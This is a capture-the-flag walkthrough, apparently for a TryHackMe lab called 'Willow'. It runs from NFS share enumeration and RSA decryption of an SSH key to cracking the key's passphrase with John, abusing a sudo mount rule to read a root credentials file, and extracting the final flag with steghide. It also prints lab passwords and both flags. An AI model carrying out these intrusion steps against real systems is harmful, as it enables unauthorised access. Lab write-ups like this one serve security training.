

# Willow

What lies under the Willow Tree?

Grab the flags from the Willow

# #1 - User Flag:

*Hint: https://muirlandoracle.co.uk/2020/01/29/rsa-encryption/*

## Recon

~~~
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 43:b0:87:cd:e5:54:09:b1:c1:1e:78:65:d9:78:5e:1e (DSA)
|   2048 c2:65:91:c8:38:c9:cc:c7:f9:09:20:61:e5:54:bd:cf (RSA)
|   256 bf:3e:4b:3d:78:b6:79:41:f4:7d:90:63:5e:fb:2a:40 (ECDSA)
|_  256 2c:c8:87:4a:d8:f6:4c:c3:03:8d:4c:09:22:83:66:64 (ED25519)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Recovery Page
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      37766/udp6  mountd
|   100005  1,2,3      39435/tcp   mountd
|   100005  1,2,3      41538/udp   mountd
|   100005  1,2,3      46662/tcp6  mountd
|   100021  1,3,4      35092/tcp6  nlockmgr
|   100021  1,3,4      40821/tcp   nlockmgr
|   100021  1,3,4      43517/udp6  nlockmgr
|   100021  1,3,4      59705/udp   nlockmgr
|   100024  1          39736/udp6  status
|   100024  1          49210/tcp   status
|   100024  1          56902/tcp6  status
|   100024  1          58445/udp   status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp open  nfs_acl 2-3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Get the SSH private key

Browsing the main web page reveals a hex string that we can easily decode:

~~~
$ curl -s http://10.10.229.86/ | html2text > code.txt
$ cat code.txt | xxd -r -p
Hey Willow, here's your SSH Private key -- you know where the decryption key is!
2367 2367 2367 2367 2367 9709 [REDACTED] 2367 2367 2367 2367
~~~

There is no `robots.txt` file. Let's try with dirsearch.

## Get the Decryption key

there is a NFS server running on port 2049. Let's check the remote shares:

~~~
$ showmount -e 10.10.229.86
Export list for 10.10.229.86:
/var/failsafe *
~~~

Now, let's mount:

~~~
$ sudo mkdir /mnt/nfs
$ sudo mount -t nfs 10.10.229.86:/var/failsafe /mnt/nfs
$ ls -la /mnt/nfs/
total 12
drwxr--r--. 2 nobody nobody 4096 Jan 30 17:31 .
drwxr-xr-x. 4 root   root   4096 Jun 11 18:12 ..
-rw-r--r--. 1 root   root     62 Jan 30 17:31 rsa_keys
$ cat rsa_keys 
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)
~~~

We can assume the following values:
* public key pair: (e, n)
* private key pair: (d, n)

Meaning that we have:
* e = 23
* n = 37627
* d = 61527

## Decrypt the SSH private key

Now,let's decrypt the SSH key, using this online calculator (https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html).

## SSH connection (attempt)

Save this as id_rsa, give it the proper rights and connect:

~~~
$ chmod 600 id_rsa
$ ssh -i id_rsa willow@10.10.229.86
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa': 
willow@10.10.229.86's password: 
Permission denied, please try again.
willow@10.10.229.86's password: 
Permission denied, please try again.
willow@10.10.229.86's password: 
willow@10.10.229.86: Permission denied (publickey,password,hostbased).
~~~

## Crack the passphrase

It looks like the key is password protected. Let's break it with John:

~~~
$ /data/src/john/run/ssh2john.py id_rsa > ssh.hash
$ /data/src/john/run/john ssh.hash --wordlist=/data/src/wordlists/rockyou.txt 
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
wildflower       (id_rsa)
1g 0:00:00:02 DONE (2020-06-11 18:35) 0.3378g/s 4845Kp/s 4845Kc/s 4845KC/s *7¡Vamos!
Session completed. 
~~~

## SSH connection (real)

Now that we have the password (`wildflower`), let's connect for real.

~~~
$ ssh -i id_rsa willow@10.10.229.86
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa': 

	"O take me in your arms, love
	For keen doth the wind blow
	O take me in your arms, love
	For bitter is my deep woe."
		 -The Willow Tree, English Folksong

willow@willow-tree:~$ pwd
/home/willow
willow@willow-tree:~$ ls -la
total 96
drwxr-xr-x 16 willow willow  4096 Mar  2 23:25 .
drwxr-xr-x  3 root   root    4096 Jan 30 15:06 ..
lrwxrwxrwx  1 willow willow     9 Jan 30 15:08 .bash_history -> /dev/null
-rw-r--r--  1 willow willow   220 Jan 30 15:06 .bash_logout
-rw-r--r--  1 willow willow  3515 Jan 30 15:06 .bashrc
drwxr-xr-x  8 willow willow  4096 Jan 30 18:15 .cache
drwx------ 11 willow willow  4096 Jan 30 15:07 .config
drwxr-xr-x  2 willow willow  4096 Jan 30 15:07 Desktop
drwxr-xr-x  2 willow willow  4096 Jan 30 15:07 Documents
drwxr-xr-x  2 willow willow  4096 Jan 30 15:07 Downloads
drwx------  3 willow willow  4096 Mar  2 23:25 .gconf
drwx------  2 willow willow  4096 Jan 30 18:15 .gnupg
-rw-------  1 willow willow  4056 Mar  2 23:25 .ICEauthority
drwx------  3 willow willow  4096 Jan 30 15:07 .local
drwxr-xr-x  2 willow willow  4096 Jan 30 15:07 Music
drwxr-xr-x  2 willow willow  4096 Jan 30 15:07 Pictures
-rw-r--r--  1 willow willow   675 Jan 30 15:06 .profile
drwxr-xr-x  2 willow willow  4096 Jan 30 15:07 Public
drwx------  2 willow willow  4096 Mar  1 23:38 .ssh
drwxr-xr-x  2 willow willow  4096 Jan 30 15:07 Templates
-rw-r--r--  1 willow willow 12721 Jan 30 19:33 user.jpg
drwxr-xr-x  2 willow willow  4096 Jan 30 15:07 Videos
~~~

## User flag

The flag is in `user.jpg`:

User flag: `THM{beneath_th_weeping_willow_tree}`

#2 - Root Flag:

*Hint: Where, on a Linux system, would you first look for unmounted partitions?*

## Mounting the hidden backup

Let's check our privileges.

~~~
willow@willow-tree:~$ sudo -l
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*
~~~

We can mount partitions in `/dev/*` with sudo without password. OK, let's check what we have in /dev:

~~~
$ ls -l /dev/
total 0

[REDACTED]

lrwxrwxrwx  1 root root          13 Jun 11 16:54 fd -> /proc/self/fd
crw-rw-rw-  1 root root      1,   7 Jun 11 16:54 full
crw-rw-rw-  1 root root     10, 229 Jun 11 16:54 fuse
brw-rw----  1 root disk    202,   5 Jun 11 16:54 hidden_backup
crw-------  1 root root     10, 228 Jun 11 16:54 hpet
drwxr-xr-x  2 root root           0 Jun 11 16:54 hugepages
lrwxrwxrwx  1 root root          25 Jun 11 16:54 initctl -> /run/systemd/initctl/fifo

[REDACTED]

~~~

Surprise... `/dev/hidden_backup` sounds like a good candidate!

~~~
willow@willow-tree:~$ mkdir /home/willom/bcp/
willow@willow-tree:~$ sudo mount /dev/hidden_backup /home/willow/bcp/
willow@willow-tree:~$ ls -l /home/willow/bcp/
total 1
-rw-r--r-- 1 root root 42 Jan 30 15:19 creds.txt
willow@willow-tree:~$ cat /home/willow/bcp/creds.txt 
root:7QvbvBTvwPspUK
willow:U0ZZJLGYhNAT2s
~~~

## Fake root flag

Now, let's get root access and get the flag

~~~
willow@willow-tree:~$ su root
Password: 
root@willow-tree:/home/willow# ls -l /root
total 4
-rw-r--r-- 1 root root 139 Jan 30 19:39 root.txt
root@willow-tree:/home/willow# cat /root/root.txt 
This would be too easy, don't you think? I actually gave you the root flag some time ago.
You've got my password now -- go find your flag!
~~~

Who would have guessed, seriously? Ah ah ah... I liked this one!

Anywhere else?

~~~
root@willow-tree:/home/willow# find / -type f -name root.txt
/root/root.txt
~~~

No...

## Real root flag

OK, let's take a moment to think of what this message could mean?

~~~
This would be too easy, don't you think? I actually gave you the root flag some time ago.
You've got my password now -- go find your flag!
~~~

After 1 minute or so, I realized that the `user.jpg` file may be hiding something (use the root flag as the passphrase).

~~~
$ steghide info user.jpg 
"user.jpg":
  format: jpeg
  capacity: 548.0 Byte
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "root.txt":
    size: 34.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
$ steghide extract -sf user.jpg 
Enter passphrase: 
wrote extracted data to "root.txt".
$ cat root.txt 
THM{find_a_red_rose_on_the_grave}
~~~

Root flag: `THM{find_a_red_rose_on_the_grave}`
